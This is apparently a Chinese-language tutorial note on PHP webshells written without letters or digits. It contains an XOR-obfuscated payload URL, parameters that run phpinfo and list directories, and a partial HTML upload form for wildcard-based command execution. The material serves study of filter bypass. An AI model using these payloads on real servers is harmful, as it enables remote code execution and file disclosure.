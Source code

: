 
```
http://127.0.0.1/test/p.php?shell=$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`');$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']');$___=$$__;$_($___[_]);
```

 

还要post一个参数

_=phpinfo();

![image-20210808135044128](images/1.png)

 

 

同理

```
_=print_r(scandir('/'));可以直接获取根目录了

_=print_r(scandir(getcwd()));

```

 

 

参考链接:https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

 

 

对于linux中的shell是支持正则表达式的，当你忘记某些字符时可以通过? % *来代替

所以我们要执行一个命令的话可以直接用?替代

而且大多数服务器都是用的linux

直接在kali里面实验了

 

不过用这种方法rce 的话需要上传一个临时文件

```
<!DOCTYPE html>

<html lang="en">

<head>

    <meta charset="UTF-8">

    <meta name="viewport" content="width=device-width, initial-scale=1.0">

  <title>POST数据包POC</title>

</head>

<body>

<form action="http://" method="post" enctype="multipart/form-data">

```